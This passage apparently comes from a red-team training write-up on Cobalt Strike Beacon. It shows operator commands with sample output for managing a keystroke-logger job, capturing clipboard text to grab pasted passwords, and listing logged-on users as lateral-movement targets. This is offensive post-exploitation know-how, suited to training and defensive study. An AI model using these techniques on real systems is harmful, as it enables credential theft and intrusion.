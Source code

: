 ```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 6    0     keystroke logger

beacon> jobkill 6
```

## C2 Capability: Clipboard

The clipboard command will capture any text from the user's clipboard (it does not capture images or any other types of data).

This can be handy for capturing credentials that are being copy/pasted.

{% hint style="info" %}
This is incredibly useful in the event that _**password managers**_ are being used throughout the target environment.
{% endhint %}

**Usage:**

This is a one-off command (doesn't run as a job) and dumps the content directly to the Beacon console.

```
beacon> clipboard
[*] Tasked beacon to get clipboard contents

Clipboard Data (8 bytes):
Sup3rman
```

## C2 Capability: User Sessions

Users that are currently logged on to the same machine may be good targets to attack.

If they are more privileged than our current user on the domain, this may serve as a good candidate for lateral movement to other machines.

The _**Domain Reconnaissance**_ writeup will showcase some methods for performing this type of enumeration further.

The `net logons` command will list the _**logon sessions**_ that are currently active on this machine.

```
beacon> net logons

Logged on users at \\localhost:

DEV\bfarmer
DEV\jking
DEV\WKSTN-2$
```
